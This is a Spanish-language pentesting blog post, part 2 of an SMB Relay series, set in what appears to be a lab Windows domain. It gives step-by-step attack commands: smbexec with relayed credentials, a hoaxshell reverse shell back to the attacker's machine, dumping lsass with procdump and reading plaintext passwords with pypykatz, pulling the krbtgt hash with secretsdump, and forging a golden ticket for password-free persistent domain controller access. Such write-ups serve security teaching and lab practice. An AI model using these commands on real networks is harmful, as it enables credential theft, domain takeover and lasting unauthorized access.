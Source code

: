 ```yaml
---
layout: single
title: Smb Relay - Parte 2
excerpt: "En esta segunda parte veremos como accder al PC02 utilizando proxychains y aprovechando el reenvío de credenciales, además de poder ver en texto claro las credenciales guardadas en el administrador de credenciales para conectarnos al controlador de dominio. Para finalizar conseguiremos persistencia en el DC1 generando un golden ticket para poder acceder sin necesidad de utilizar contraseña."
date: 2022-10-16
classes: wide
header:
  teaser: /assets/images/Smb-Relay/responder2.png
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Privilege Escalation
  - Pentesting
---
```


En esta segunda parte veremos como accder al PC02 utilizando proxychains y aprovechando el reenvío de credenciales, además de poder ver en texto claro las credenciales guardadas en el administrador de credenciales para conectarnos al controlador de dominio. Para finalizar conseguiremos persistencia en el DC1 generando un golden ticket para poder acceder sin necesidad de utilizar contraseña.

## Acceso inicial

Ahora vamos a ganar acceso a la máquina PC02, de la siguiente forma. Ejecutamos proxychains smbexec.py -no-pass 'SIETEREINOS'/'JON'@'192.168.0.169' -debug -service-name test y directamente estamos dentro de la máquina PC02 con privilegios de system, los más elevados.

![](/assets/images/Smb-Relay/smbexec.png)

Pero esta consola es semi-interactiva, así que vamos a pasarnos a una consola totalmente interactiva de powershell con [hoaxshell](https://github.com/t3l3machus/hoaxshell) 

```bash
python3 hoaxshell.py -s 192.168.0.116 -H "Authorization"
```
Copiamos el comando que nos indica hoaxshell y lo ejecutamos en nuestra consola smbexec para obtener acceso con powershell.

![](/assets/images/Smb-Relay/hoaxshell.png)

![](/assets/images/Smb-Relay/cmd.png)

![](/assets/images/Smb-Relay/powershell.png)

## Acceso al controlador del dominio

El usuario de la máquina PC02 es un poco confiado y, además de guardar contraseñas en el navegador tiene la contraseña del administrador del dominio almacenada. Vamos a ver como podríamos verla.

![](/assets/images/Smb-Relay/creds.png)

Descargamos la herramienta [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) de la suite de sysinternals, del propio microsoft. Lo descomprimimos y vamos a tranferir a la máquina PC02 el archivo procdump64.exe, levantamos un servidor smb en nuestra máquina de atacante (smbserver.py -smb2support ximo .) y copiamos el archivo desde el PC02 (copy \\\192.168.0.116\ximo\procdump64.exe procdump64.exe).

```bash
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

![](/assets/images/Smb-Relay/procdump.png)

Nos tranferimos el archivo a nuestra máquina (copy lsass.dmp \\\192.168.0.116\ximo\lsass.dmp) y vamos a ver si con pypykatz podemos extraer esa contraseña.

```bash
pypykatz lsa minidump lsass.dmp
```
![](/assets/images/Smb-Relay/pypykatz.png)

Pypykatz nos muestra la contraseña en texto claro y tenemos la contraseña del administrador del dominio (!P@ssw0rd).

En este punto ya podemos conectarnos al servidor con evil-winrm.

![](/assets/images/Smb-Relay/evil.png)

## Persistencia con Golden Ticket

Vamos a generar un ticket de kerberos, firmado con el hash de la cuenta del usuario krbtgt, que es el encargado de firmar los tickets de kerberos, con lo cual el servidor pensará, cuando utilicemos el ticket, que ya hemos pasado la fase de validación de la contraseña y nos dará acceso aunque no usemos ninguna contraseña. Podremos acceder al servidor siempre que queramos aunque nos cambien la contraseña del administrador.

Lo primero que necesitaremos es el hash de la contraseña del usuario krbtgt. Lo podemos averiguar con secretsdump.

```bash
secretsdump.py Administrador:'!P@ssw0rd'@192.168.0.100 | grep krbtgt | grep :::
```

Lo siguiente que necesitamos es el SID del dominio. Esto lo sacamos con lookupsid.

```bash
lookupsid.py sietereinos.local/Administrador:'!P@ssw0rd'@192.168.0.100
```
![](/assets/images/Smb-Relay/sid.png)

Ahora con la herramienta ticketer crearemos el ticket.

```bash
ticketer.py -nthash 96fe190f31307691486d57de87e59f56 -domain-sid S-1-5-21-4181028088-1212197574-1834492528 -domain sietereinos.local Administrador
```

Solo nos falta exportar una variable de entorno para poder conectarnos al servidor.

```bash
export KRB5CCNAME=/workspace/Administrador.ccache
```

Ya nos podemos conectar siempre que queramos sin utilizar contraseña con wmiexec, con el parámetro -k para utilizar kerberos con el ticket exportado en la variable de entorno y con -no-pass para indicarle que no utilice contraseña.

```bash
wmiexec.py -k -no-pass sietereinos.local/Administrador@dc1.sietereinos.local
```
![](/assets/images/Smb-Relay/ticket.png)

En la parte 3 veremos como mitigar los ataques basados en SMB Relay usando gpo para que se desplieguen en todos los equipos del dominio.

[SMB Relay Parte 3](https://ximobaeza.github.io/ciberseguridad/Smb-Relay-Parte3/)
